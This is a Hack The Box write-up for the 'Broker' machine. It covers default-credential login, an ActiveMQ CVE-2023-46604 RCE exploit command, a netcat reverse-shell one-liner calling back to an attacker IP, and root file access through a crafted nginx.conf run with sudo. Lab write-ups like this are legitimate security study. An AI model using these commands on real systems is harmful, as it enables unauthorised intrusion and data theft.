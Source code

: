 ```yaml
---
layout: post
title: Hack The Box - Broker Writeup
date: 2024-06-15 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![brokerBadge.png](/assets/img/Broker/brokerBadge.png)

## Summary

After bypassing basic `HTTP` authentication on port 80, I discovered that `Apache ActiveMQ` is in use. Searching for `Apache ActiveMQ` vulnerabilities, I found exploit which allows RCE. Exploit generated a pseudo shell which, I leveraged to get reverse shell on system. Enumerating system as user `activemq` revealed that `activemq` can run `/usr/sbin/nginx` with `sudo`. Running `/usr/sbin/nginx` with `-c` parameter allowed me to set arbitrary configuration file. I was able to exploit this by creating a new vulnerable `nginx` configuration file with root directory set to filesystem root. Running `/usr/sbin/nginx` with `sudo` and malicious `nginx.conf` file allowed me to read all files on filesystem. 


## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |


#### Port 80

Accessing port 80 we can see that there is basic HTTP authentication set. 

![80basicAuth.png](/assets/img/Broker/80basicAuth.png)


I was able to sign in using default credentials `admin : admin`. Successful login granted me access to `index.html`, which revealed that `Apache ActiveMQ` is in use. 

![80.png](/assets/img/Broker/80.png)


## Initial Foothold

Searching for `Apache ActiveMQ` vulnerabilities, I found [exploit](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) which allows remote code execution.

```bash
python3 exploit.py -i 10.10.11.243 -si 10.10.14.14 -sp 8087
```

![exploit.png](/assets/img/Broker/exploit.png)

To get a reverse shell on the system, I used the following payload: 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 80 >/tmp/f
```

![reverseShell.png](/assets/img/Broker/reverseShell.png)

![userFlag.png](/assets/img/Broker/userFlag.png)


## Privilege Escalation

### System Enumeration

Enumerating system as user `activemq` revealed that I can run `/usr/sbin/nginx` with `sudo`. 

```bash
sudo -l
```

![sudoL.png](/assets/img/Broker/sudoL.png)

### Creating vulnerable nginx server 

First I tried to see all parameters that can be set while running `nginx` command. 

```bash
sudo /usr/sbin/nginx -h
```

![nginxHelp.png](/assets/img/Broker/nginxHelp.png)

We can see that `-c` option allows us to set arbitrary configuration file. To leverage this I created new `nginx.conf`. Server will be listening on port 8081 and root directory is set to filesystem root. 

```bash
user root;
worker_processes auto;
error_log /var/log/nginx/error.log warn;
pid /var/run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    server {
        listen 8081;
        server_name localhost;

        root /;  # Setting the root to the filesystem root

        location / {
            try_files $uri $uri/ =404;
        }

        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /usr/share/nginx/html;  # Serve error page from a safer directory
        }
    }
}
```

Running `/usr/sbin/nginx` with this configuration file and `sudo` privileges made vulnerable `nginx` server accessible on port 8081 and allowed me to read any file on filesystem. 

```bash
sudo /usr/sbin/nginx -c "/tmp/nginx.conf"
```

![escalation.png](/assets/img/Broker/escalation.png)
